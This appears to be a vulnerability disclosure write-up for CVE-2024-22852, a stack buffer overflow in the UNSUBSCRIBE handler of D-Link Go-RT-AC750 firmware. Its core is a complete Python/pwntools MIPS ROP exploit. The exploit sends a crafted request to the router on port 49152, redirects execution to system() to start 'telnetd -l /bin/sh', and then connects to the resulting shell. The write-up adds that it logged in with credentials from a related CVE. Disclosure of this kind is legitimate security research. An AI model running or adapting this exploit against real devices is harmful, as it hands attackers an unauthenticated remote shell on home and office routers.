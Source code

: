 # D-Link Go-RT-AC750 Buffer Overflow Vulnerability

## Product information

Vendor of the product: https://www.dlink.com/

Product version: D-Link Go-RT-AC750 GORTAC750_A1_FW_v101b03

## vulnablitity overview

D-Link Go-RT-AC750 GORTAC750_A1_FW_v101b03 contains a stack-based buffer overflow via the Unsubscribe function in genacgi_main. This vulnerability allows attackers to enable telnet service via a specially crafted payload.

## Analyse

UNSUBSCRIBE function in genacgi_main

![img1](https://raw.githubusercontent.com/Beckaf/vunl/main/D-Link/AC750/1/img/img1.jpg)

Observing function parameters, SERVER_ID：LAN-1，SERVICE：'a'*600（buffer overflow），HTTP_SIP：1

![img2](https://raw.githubusercontent.com/Beckaf/vunl/main/D-Link/AC750/1/img/img2.png)

stack overflow

![img3](https://raw.githubusercontent.com/Beckaf/vunl/main/D-Link/AC750/1/img/img3.jpg)

## Exploit

Calculate buffer length

![img4](C:/Users/Beck_/Desktop/dlink/img4.png)

In the end of function,There are some gadgets that can be used.

![img5](https://raw.githubusercontent.com/Beckaf/vunl/main/D-Link/AC750/1/img/img5.png)

poc

```python
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'mips',log_level='debug',endian = 'big')
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))

libc_base = 0x77f6c000
system_addr = 0x52510

# 482
cmd = b'telnetd -l /bin/sh;'

payload = 470*b'a'
payload += p32(0x43F3C + libc_base)         #s0  move $a0,$s2(=>jalr  $s1)
payload += p32(system_addr + libc_base)          #s1
payload += b'b'*4                         #s2                 
payload += p32(0x00017D68 + libc_base)      # ra addiu $s2,$sp,0x150+var_140(=>jalr  $s0)
payload += cmd

msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: 1\r\n\r\n"
s.send(msg)
sleep(1)          
system("telnet 192.168.0.1 23")
```

The telnet service has been started.

Using the username and password from CVE-2024-22853,it successfully logged into the telnet service.

![img6](https://raw.githubusercontent.com/Beckaf/vunl/main/D-Link/AC750/1/img/img6.jpg)

## CVE-2024-22852

